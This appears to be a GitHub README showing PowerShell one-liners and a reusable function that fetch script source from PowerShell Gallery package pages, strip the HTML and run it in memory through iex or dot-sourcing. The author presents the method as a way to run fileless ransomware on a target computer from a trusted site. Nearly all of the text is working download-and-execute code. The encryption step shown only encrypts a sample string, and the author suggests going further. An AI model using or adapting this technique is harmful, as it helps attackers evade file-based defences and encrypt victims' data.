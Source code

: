 # powerGallery

This one liner will load the neccessary files to encrypt a system straight from the trusted powershellgallery.com website.
Used in conjunction with a simple for loop its is now fileless ransomware hosted and executed from your platform

```powershell
$u="powershellgallery.com";foreach($m in ([regex]::Matches((irm "$u/packages/PsAES"),'<a\s+[^>]*href="([^"]+\.ps1)"[^>]*>'))){([regex]::Matches((irm "$u$($m.Groups[1].Value)"),'(?<=<td class="fileContent .*?">).*?(?=<\/td>)','s').Value|%{[System.Net.WebUtility]::HtmlDecode($_)}) -replace '<(?!#)[^>]+>|(?<!<#)>(?![^#])',''|iex}
```

Next its as simple as running the commands stored in that module agaisnt the system
In this instance we can encrypt a string, but why stop there? 

```powershell
$encryptedMessage = Protect-AESMessage -Message "Sensitive Data" -Password "89c57yj78754cth8"
```

Combining them into a simple one liner. Together with yet another simple functionality the `for loop` you should be able to see the danger
We could run fileless ransomware on a target computer all from a trusted source

```powershell
$u="powershellgallery.com";foreach($m in ([regex]::Matches((irm "$u/packages/PsAES"),'<a\s+[^>]*href="([^"]+\.ps1)"[^>]*>'))){([regex]::Matches((irm "$u$($m.Groups[1].Value)"),'(?<=<td class="fileContent .*?">).*?(?=<\/td>)','s').Value|%{[System.Net.WebUtility]::HtmlDecode($_)}) -replace '<(?!#)[^>]+>|(?<!<#)>(?![^#])',''|iex};$encryptedMessage = Protect-AESMessage -Message "Sensitive Data" -Password "89c57yj78754cth8"
```

# Get Current Version

```powershell
# Define the regex pattern to extract content from <h2> within the specified <article> class
$pattern = '<article class="col-sm-12 col-md-8 package-details-main special-margin-left">.*?<h2>(.*?)</h2>'

# Perform the regex match
$match = [regex]::Match($html, $pattern, [System.Text.RegularExpressions.RegexOptions]::Singleline)

# Extract the value
if ($match.Success) {
    $h2Content = $match.Groups[1].Value.Trim()
    # Output the content of the <h2> tag
    $h2Content
} else {
    "No <h2> tag found within the specified <article> class."
}
```


You can use this function to grab the links of all the .ps1 files in a module from the powershell gallery website

```powershell
$module = 'PsAES'
$mod = "https://www.powershellgallery.com/packages/$module"
$content = Invoke-RestMethod -Uri $mod
$regex = '<a\s+[^>]*href="([^"]+\.ps1)"[^>]*>'
$matches = [regex]::Matches($content, $regex)
$baseURL = "https://www.powershellgallery.com"
foreach ($match in $matches) {
$relativeLink = $match.Groups[1].Value
$fullLink = $baseURL + $relativeLink
([regex]::Matches((irm "$fullLink"), '(?<=<td class="fileContent .*?">).*?(?=<\/td>)', 's').Value|%{[System.Net.WebUtility]::HtmlDecode($_)})-replace'<(?!#)[^>]+>|(?<!<#)>(?![^#])',''|iex}
```

```powershell
function Get-ModuleCode {
    param (
        [Parameter(Mandatory)]
        [string]$module
    )

    $mod = "https://www.powershellgallery.com/packages/$module"
    $content = Invoke-RestMethod -Uri $mod
    $regex = '<a\s+[^>]*href="([^"]+\.ps1)"[^>]*>'
    $matches = [regex]::Matches($content, $regex)
    $baseURL = "https://www.powershellgallery.com"

    foreach ($match in $matches) {
        $relativeLink = $match.Groups[1].Value
        $fullLink = $baseURL + $relativeLink
        
        # Download and strip HTML
        $decodedCode = ([regex]::Matches((irm "$fullLink"), '(?<=<td class="fileContent .*?">).*?(?=<\/td>)','s').Value |
                        ForEach-Object { [System.Net.WebUtility]::HtmlDecode($_) }) `
                        -replace '<(?!#)[^>]+>|(?<!<#)>(?![^#])',''
        
        # Turn the string into a ScriptBlock
        $scriptBlock = [ScriptBlock]::Create($decodedCode)
        
        # Dot-source it into the global scope
        . $scriptBlock
    }
}
```

Syntax: 
[You must dot source the function call to get access to the code in the global scope]

```powershell
. Get-ModuleCode -module 'PsAES'
```












